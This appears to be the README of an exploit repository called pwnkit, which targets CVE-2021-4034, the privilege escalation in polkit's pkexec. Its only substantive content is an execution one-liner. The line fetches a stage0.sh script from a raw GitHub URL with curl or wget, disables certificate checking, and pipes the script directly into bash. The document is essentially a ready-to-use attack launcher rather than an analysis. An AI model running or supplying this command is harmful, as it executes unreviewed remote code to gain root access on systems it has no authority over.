 # pwnkit

CVE-2021-4034

Privilege escalation in polkit pkexec function.

**Execution:**<br>

```command -v curl >/dev/null && bash -c "$(curl -fsSLk raw.githubusercontent.com/secw01f/pwnkit/main/stage0.sh)" || bash -c "$(wget --no-check-certificate -q0- raw.githubusercontent.com/secw01f/pwnkit/main/stage0.sh)"```

